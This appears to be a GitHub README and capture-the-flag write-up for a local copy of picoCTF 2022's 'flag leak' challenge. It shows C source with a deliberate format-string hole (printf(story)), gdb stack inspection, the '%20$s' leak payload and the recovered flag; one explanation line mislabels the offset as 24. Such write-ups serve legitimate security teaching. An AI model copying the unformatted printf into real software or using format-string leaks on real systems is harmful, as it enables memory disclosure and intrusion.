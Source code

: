# Format_String
local compile version of the 'flag leak' challenge - picoCTF 2022

## How to use
- Step 1: Run command ```docker build . -t chall:1``` to build the challenge
- Step 2: Run command ```docker run --rm -it chall:1``` to run the challange

## Write up
- First let's checkout the source code
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Nói gì đi rồi tui nói lại cho >> ");
   scanf("%127s", story);
   printf("Đến lượt tui nè: \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  pid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```
- Checksec:


- No PIE enable. Easily see the format-string-vulnerability on vuln function by calling to printf(story) without any format string arguments
- Step 1: Check the FLAG frame in stack
``` assembly
(gdb) diassemble vuln
Undefined command: "diassemble".  Try "help".
(gdb) disassemble vuln
Dump of assembler code for function _Z4vulnv:
   0x0804927f <+0>:     push   %ebp
   0x08049280 <+1>:     mov    %esp,%ebp
   0x08049282 <+3>:     push   %ebx
   0x08049283 <+4>:     sub    $0xc4,%esp
   0x08049289 <+10>:    call   0x8049140 <__x86.get_pc_thunk.bx>
   0x0804928e <+15>:    add    $0x2d72,%ebx
   0x08049294 <+21>:    sub    $0x8,%esp
   0x08049297 <+24>:    push   $0x40
   0x08049299 <+26>:    lea    -0x48(%ebp),%eax
   0x0804929c <+29>:    push   %eax
   0x0804929d <+30>:    call   0x8049206 <_Z8readflagPcj>
   0x080492a2 <+35>:    add    $0x10,%esp
   0x080492a5 <+38>:    sub    $0xc,%esp
   0x080492a8 <+41>:    lea    -0x1f9c(%ebx),%eax
   0x080492ae <+47>:    push   %eax
   0x080492af <+48>:    call   0x8049050 <printf@plt>
   0x080492b4 <+53>:    add    $0x10,%esp
   0x080492b7 <+56>:    sub    $0x8,%esp
   0x080492ba <+59>:    lea    -0xc8(%ebp),%eax
   0x080492c0 <+65>:    push   %eax
   0x080492c1 <+66>:    lea    -0x1f6d(%ebx),%eax
   0x080492c7 <+72>:    push   %eax
   0x080492c8 <+73>:    call   0x80490d0 <__isoc99_scanf@plt>
   0x080492cd <+78>:    add    $0x10,%esp
   0x080492d0 <+81>:    sub    $0xc,%esp
   0x080492d3 <+84>:    lea    -0x1f67(%ebx),%eax
   0x080492d9 <+90>:    push   %eax
   0x080492da <+91>:    call   0x8049080 <puts@plt>
   0x080492df <+96>:    add    $0x10,%esp
   0x080492e2 <+99>:    sub    $0xc,%esp
   0x080492e5 <+102>:   lea    -0xc8(%ebp),%eax
--Type <RET> for more, q to quit, c to continue without paging--
   0x080492eb <+108>:   push   %eax
   0x080492ec <+109>:   call   0x8049050 <printf@plt>
   0x080492f1 <+114>:   add    $0x10,%esp
   0x080492f4 <+117>:   sub    $0xc,%esp
   0x080492f7 <+120>:   push   $0xa
   0x080492f9 <+122>:   call   0x80490c0 <putchar@plt>
   0x080492fe <+127>:   add    $0x10,%esp
   0x08049301 <+130>:   nop
   0x08049302 <+131>:   mov    -0x4(%ebp),%ebx
   0x08049305 <+134>:   leave
   0x08049306 <+135>:   ret
```
- Break point at 0x080492a2
```assembly
Breakpoint 1, 0x080492a2 in vuln() ()
(gdb) x
Argument required (starting display address).
(gdb) x/100x $sp
0xffffd000:     0xffffd090      0x00000040      0xf7d86374      0x0804928e
0xffffd010:     0xf7fbe4a0      0xffffffff      0xffffd094      0xf7d81e54
0xffffd020:     0xf7fbe4a0      0xf7fd0294      0xf7d79674      0xf7f9a000
0xffffd030:     0xf7f9ada0      0x00000000      0x08048369      0x0804c034
0xffffd040:     0xf7ffda40      0xf7fd6f20      0x08048369      0xf7ffda40
```
- 0xffffd090 is FLAG address -> the stack frmae of FLAG
- Continue breakpoint right the scanf function at 0x080492c8
```assembly
Breakpoint 1, 0x080492c8 in vuln() ()
(gdb) x/100x $sp
0xffffd000:     0x0804a093      0xffffd010      0xf7d86374      0x0804928e
0xffffd010:     0xf7fbe4a0      0xffffffff      0xffffd094      0xf7d81e54
0xffffd020:     0xf7fbe4a0      0xf7fd0294      0xf7d79674      0xf7f9a000
0xffffd030:     0xf7f9ada0      0x00000000      0x08048369      0x0804c034
0xffffd040:     0xf7ffda40      0xf7fd6f20      0x08048369      0xf7ffda40
0xffffd050:     0xffffd090      0xf7ffdc0c      0xf7fbe7c0      0x00000001
```
- From the current the stack frame that esp point to (0x0804a093) the stack frame of FLAG (0xffffd090) need 20 stack frame including the FLAG stackframe. So we can use this payload to leak the FLAG: "%20$s"
```c
% : This marks the beginning of a format specifier.
24 : This is a positional argument specifier. It means that printf should use the 20th argument in the list provided to it.
$ : This is used in conjunction with the positional argument specifier. It's what differentiates a positional argument specifier from a width specifier.
s : This indicates that the argument is expected to be a string (char *).
So, when you use %20$s in printf, the function will expect at least 20 arguments to be passed to it, and it will print the 20th argument assuming it's a string. If there are fewer than 20 arguments provided, or if the 20th argument is not a string, this will likely result in undefined behavior, such as a crash or printing garbage data, because printf will try to access memory that it shouldn't.

Here's a simple example:
printf("%20$s", arg1, arg2, ..., arg20); // arg20 should be a string

In this code, arg20 is expected to be a string, and it will be printed. This feature is not commonly used and can lead to confusing code, so it's generally recommended to use simpler format specifiers unless you have a specific need for this kind of functionality.
```
- FLAG:
```
mera@Admin:/mnt/d/LTAT$ ./chall
Nói gì đi rồi tui nói lại cho >> %20$s
Đến lượt tui nè:
CCDCTF{s33d_h@i_nhw_n@y_s33d_m0t_nhw_n@0}
```





